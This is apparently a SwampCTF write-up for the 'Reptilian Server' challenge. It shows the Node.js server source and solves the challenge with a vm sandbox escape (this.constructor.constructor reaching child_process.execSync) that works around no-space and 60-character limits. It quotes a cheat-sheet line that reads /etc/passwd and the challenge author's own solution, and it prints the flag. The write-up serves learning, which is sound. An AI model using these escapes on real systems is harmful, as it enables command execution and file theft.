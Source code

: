 # Reptilian Server
> You are a human spy sent to gather information on a new centralized computing station that the Reptilians have developed, and is being used to house important secrets. In order to blend in, you learned the Reptilian language, which is similar to English except there are no spaces and you can't talk for too long.

> Using your unique skillset, gather as much information from the Reptilians as you can. If you can tell us how they started the server we can replicate it ourselves. There may be a flag in it for you if you do.

> The flag will be in the standard format for SwampCTF.

## About the Challenge
We got a server to connect and also Javascript source code called `server.js`. Here is the content of `server.js`:

```javascript
const vm = require('node:vm');
const net = require('net');

// Get the port from the environment variable (default to 3000)
const PORT = process.env.PORT || 3000;

// Create a TCP server
const server = net.createServer((sock) => {
    console.log('Client connected!');
    sock.write(`Welcome to the ReptilianRealm! Please wait while we setup the virtual environment.\n`);

    const box = vm.createContext(Object.create({
        console: {
            log: (output) => {
                sock.write(output + '\n');
            }
        },
        eval: (x) => eval(x)
    }));

    sock.write(`Environment created, have fun playing with the environment!\n`);

    sock.on('data', (data) => {
        const c = data.toString().trim();

        if (c.indexOf(' ') >= 0 || c.length > 60) {
            sock.write("Intruder Alert! Removing unwelcomed spy from centeralized computing center!");
            sock.end();
            return;
        }

        try {
            const s = new vm.Script(c);
            s.runInContext(box, s);
        } catch (e) {
            sock.write(`Error executing command: ${e.message} \n`);
        }
    });

    sock.on('end', () => { console.log('Client disconnected!'); });
});

// Handle server errors
server.on('error', (e) => {
    console.error('Server error:', e);
});

// Start the server listening on correct port.
server.listen(PORT, () => {
    console.log(`Server listening on port ${PORT}`);
});
```

We can execute a JS code but there are 2 restriction here:

* There must be no whitespace in the input
* The length of each input cannot exceed 60 characters

## How to Solve?
To solve this chall, Im using this repository as a reference (https://github.com/aadityapurani/NodeJS-Red-Team-Cheat-Sheet) and then I saw `vm module breakout` section

```js
"use strict";
const vm = require("vm");
const xyz = vm.runInNewContext(`const process = this.constructor.constructor('return this.process')();
process.mainModule.require('child_process').execSync('cat /etc/passwd').toString()`);
console.log(xyz);
```

Because we can't enter a string that exceeds 60 characters, so I just divided it into several variables. To bypass space constraints, I use `String.fromCharCode(32)` which is the equivalent of spaces

```js
space=String.fromCharCode(32)
d="return"+space+"this.process"
proc=this.constructor.constructor(d)();
la=proc.mainModule.require('child_process');
console.log(la.execSync('ls').toString())
console.log(la.execSync('cat${IFS}Dockerfile').toString())
```

![flag](images/flag.png)

> btw I solved this challenge using unintended ways. Here is the solution provided by the author, which I found by reading the `solution.md` file on the server

```
console.log(la.execSync('cat${IFS}*.md').toString())
# Challenge

You are a human spy sent to gather information on a new centralized computing station that the Reptilians have developed, and is being used to house important secrets. In order to blend in, you learned the Reptilian language, which is similar to English except there are no spaces and you can't talk for too long. 

Using your unique skillset, gather as much information from the Reptilians as you can. If you can tell us how they started the server we can replicate it ourselves. There may be a flag in it for you if you do. 

The flag will be in the standard format for SwampCTF.# Solution to Reptilian Server

The solution to this challenge is complex, and the main difficulty is in establishing the VM escape. 

Its easy to see from the dockerfile that the flag will be provided as an argument to the process running the server.
In order to access that flag, you must escape the VM which runs your commands. This payload would normally do the trick: 

console.log((this.constructor.constructor('return (process.argv)'))())

However, to blend in with the reptillians we need to shorten this payload and remove the spaces from it. 

To shorten the payload, we can break it up into sections by storing parts of the payload in variables, like so:

let b='return (process.argv)'
let a=this.constructor.constructor(b);
console.log(a())

Then, in order to write this without any spaces, we can use a combination of String.fromCharCode and a unicode character "Paragraph Separator" (U+2029) 
to rewrite the payload without spaces, solving the challenge. 

let b='return+String.fromCharCode("160")+(process.argv)'
let a=this.constructor.constructor(b);
console.log(a())
```

```
swampCTF{Unic0d3_F0r_Th3_W1n}
```